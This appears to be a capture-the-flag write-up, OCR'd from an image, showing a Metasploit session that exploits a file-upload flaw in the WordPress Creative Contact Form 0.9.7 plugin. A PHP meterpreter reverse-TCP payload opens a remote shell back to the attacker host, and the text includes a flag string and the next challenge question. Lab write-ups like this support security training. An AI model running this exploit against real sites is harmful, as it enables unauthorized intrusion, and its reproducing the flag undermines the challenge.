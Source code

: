    Id  Name
   --  ----
   0   Creative Contact Form 0.9.7

msf5 exploit(unix/webapp/wp_creativecontactform_file_upload) > show options

Module options (exploit/unix/webapp/wp_creativecontactform_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.25.45.92     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.13.0.151      yes       The listen address (an interface may be specified)
   LPORT  9090             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Creative Contact Form 0.9.7

msf5 exploit(unix/webapp/wp_creativecontactform_file_upload) > exploit

[*] Started reverse TCP handler on 10.13.0.151:9090 
[+] Our payload is at: UaVSzxGiuE.php. Calling payload...
[*] Calling payload...
[*] Sending stage (38288 bytes) to 172.25.45.92
[*] Meterpreter session 1 opened (10.13.0.151:9090 -> 172.25.45.92:42078) at 2020-07-23 11:31:06 -0400
[+] Deleted UaVSzxGiuE.php
ls

meterpreter > ls
Listing: /var/www/html/wp-content/plugins/sexy-contact-form/includes/fileupload/files
=====================================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  0     fil   2016-08-25 03:09:32 -0400  index.html

</pre>

MoreLikeKimJongFUN

===Watering Hole 9===

What is the full path to where Apache logs web access requests?
